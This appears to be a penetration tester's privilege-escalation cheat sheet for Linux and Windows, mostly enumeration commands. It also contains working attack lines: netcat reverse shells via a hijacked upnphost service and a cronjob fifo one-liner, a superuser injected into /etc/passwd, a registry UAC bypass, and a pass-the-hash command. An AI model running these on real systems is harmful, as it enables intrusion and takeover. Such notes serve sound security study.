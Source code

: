 ##### Basic Privilege Escalation Enumeration

###### Basic Privesc Enumeration for Linux
```
whoami
whoami /priv // Privileges info
---
id
---
cat /etc/passwd // Discover other users
---
hostname
---
cat /etc/issue // OS
--- 
cat /etc/*-release // OS + More info
---
uname -a // Exact Package
---
ps aux // Processes
---
ifconfig
---
ip a // ifconfig
---
/sbin/route // Network map / Could be routel depending on distro
---
ss -anp // Active network connections
```
###### Enumerating Firewalls for Linux
Need root for iptables but...
```
cat /etc/iptables // Check for this 
---
cat /etc/iptables-backup
---
cat /etc/iptables | grep 'iptables-save' // iptables-restore
```
###### Enumerating Scheduled Tasks for Linux
```
ls -lah /etc/cron* //List Tasks
---
cat /etc/crontab // Inspect Carfully 
```
###### Enumerating installed applications for Linux
```
dpkg -l
---
```
###### Enumerating R/W files for Linux
```
find / -writable -type d 2>/dev/null
---
```
###### Enumerating Unmounted Disks for Linux
```
mount // Show mounts
---
cat /etc/fstab // Check Mounting configs
---
/bin/lsblk  // View all available disks 
---
```
###### Enumerating Drivers and Kernal Modules for Linux
```
lsmod
---
s/sbin
---
/sbin/modinfo <module> //How to view modules
```
###### SUID for Linux
```
find / -perm -u=s -type f 2>/dev/null
```
***
###### Basic Privesc Emumeration for Windows
```
whoami
---
net user // Discover other users
---
net user <user> // Enumerate info for selected user
---
hostname
---
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type" // View System Info
---
tasklist /SVC // Processes
---
ipconfig /all
---
route print // network routing tables 
---
netstat -ano // Veiw active network connections 
a = all active TCP connection
n = ip/ports
o = PID
```
###### Enumerating Firewalls for Windows
```
netsh advfirewall show currentprofile // Current firewall profile
---
netsh advfirewall firewall show rule name=all // Firewall rules
```
###### Enumerating Scheduled Tasks for Windows
```
schtasks /query /fo LIST /v // List Tasks
```
###### Enumerating installed applications for Windows
```
wmic product get name, version, vendor // Info on installed apps
---
wmic qfe get Caption, Description, HotFixID, InstalledOn // Full Sys updates
```
###### Enumerating R/W files for Windows
```
[Download accesschk.exe onto Target]
accesschk.exe -uws "Everyone" "<Path to DIR>" // Will check for w-W files 
---
[powershell]
Get-ChildItem "<PATH TO DIR>" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}
```
###### Enumerating Unmounted Disks for Windows
```
mountvol
```
###### Enumerating Drivers and Kernal Modules for Windows
```
driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start mod
e', Path // Lists display name, start mode and path
---
 Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"} //Target specific drivers
```
###### AutoElevate Binaries for Windows
```
regedit //opens Registry Editor 
---
reg query HKEY_CURRENT_USER
---
REG ADD HKCU\path\to\Shell\Open\command /v DelegateExecute /t REG_SZ
```
###### 
Insecure file permissions for Windows
```
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'} // shows service/path
---

```
***
#### The Automated Stuff
###### Windows
```
windows-privesc-check2.exe // http://pentestmonkey.net/windows-privesc-check

windows-privesc-check2.exe--dump -G Dump Groups 
---
windows-privesc-check2.exe --dump -G -H // Dump Groups & Shares
---
windows-privesc-check2.exe --dump -M -V // Dump password policy & privs for users and groups
---
windows-privesc-check2.exe -A // All files and Dirs
--
windows-privesc-check2.exe --pyshell // o.O 
---
procmon.exe
---
sigcheck.exe -a -m C:\path\to\binarie
---
sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe YOUR_IP 1234 -e C:\WINDOWS\System32\cmd.exe"  //XP SP1 2001 
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
```
###### Linux 
```
./unix-privesc-check // http://pentestmonkey.net/tools/unix-privesc-check
---
./unix-privesc-check standard
---
./unix-privesc-check detailed 
```
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP><PORT> >/tmp/f" // write this to a file in a cronjob
---
```
```
Injecting a superuser into /etc/passwd
openssl passwd <newpassword> // Populate password hash
-
echo "<NEW USERNAME>:<HASH>:0:0:root:/root:/bin/bash" >> /etc/passwd // add user to passwd
- 
su <new username> // rooted ;)
```
###### Windows
```
[Examples]

whoami /groups // Look for Medium integrity level
-
net user admin NewPassword // Try set new password (Most likely will fail)
-
powershell.exe Start-Process cmd.exe -Verb runAs // Privesc
```
```
wmic service where caption="Service" get name, caption, state, startmode // Check start mode and active status
---
pth-winexe -U <user>%<lm hash>:<NTLM hash> //<Target IP> cmd /// Pass the Hash 
```

